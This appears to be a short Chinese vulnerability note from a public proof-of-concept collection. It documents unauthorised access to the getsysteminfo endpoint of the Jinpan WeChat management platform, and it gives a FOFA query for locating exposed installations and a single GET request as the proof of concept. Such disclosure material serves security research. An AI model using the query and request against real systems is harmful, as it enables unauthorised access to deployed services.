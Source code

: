 # 金盘 微信管理平台 接口 未授权访问漏洞

## 漏洞描述

金盘 微信管理平台 getsysteminfo 接口未授权

## 漏洞影响

```
All
```

## FOFA

```
fid="/WBBbUeeqmFQWBK6wjuhGQ==" or title="微信管理后台" && icon_hash="116323821"
```

## 漏洞复现

登陆页面

![image-20230814215830785](img/image-20230814215830785.png)

验证POC

```
GET /admin/weichatcfg/getsysteminfo
```

![image-20230814215940697](img/image-20230814215940697.png)

## Python poc

```
暂无
```

